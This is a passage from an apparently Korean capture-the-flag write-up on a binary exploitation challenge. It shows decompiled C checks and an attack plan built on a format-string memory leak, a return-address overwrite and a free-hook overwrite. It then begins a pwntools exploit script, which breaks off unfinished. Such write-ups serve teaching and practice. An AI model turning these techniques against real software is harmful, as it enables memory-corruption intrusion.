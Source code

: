 ### **is_end_check**

```C
int is_end_check()
{
  int result; // eax

  result = current_position;
  if ( !current_position )
  {
    result = half_check;
    if ( half_check == -559038737 )
    {
      result = puts("Good job!");
      is_end = 1;
    }
  }
  return result;
}
```

`current_position`가 0이며, `half_check = -559038737;` **0xdeadbeef**일 경우 Good job!을 출력하며 `is_end`를 1로 초기화한다.

### **valid_check** _(추가)_

```C
__int64 __fastcall valid_check(int a1)
{
  if ( a1 > 10 )
    puts("Max move 10!");
  return 10LL;
}
```

움직일 칸에 대한 입력 값을 검증하는데 출제자의 오류인지 무조건 **10**을 return 하게 되는 것을 뒤늦게 알았다.

## 문제 풀이

* **시나리오**

  1. FSB를 통한 Memory Leak

  2. RAO

  3. 실패 시 Free hook overwrite 유도를 위한 Free 함수

`half_check`를 위해 32칸을 move_right하고, `current_position`가 0이 되는 것을 위해 다시 32칸 move_left 하고자 한다.

### Memory Leak

```python
from pwn import *

def slog(name, addr):
        return success(": ".join([name, hex(addr)]))

def right():
    for i in range(3):
        p.sendlineafter('opt >>', str(1))
        p.sendlineafter('way >>', str(1))
        p.sendlineafter('move >>', str(1))
    p.sendlineafter('opt >>', str(1))
    p.sendlineafter('way >>', str(1))
    p.sendlineafter('move >>', str(1))

def left():
```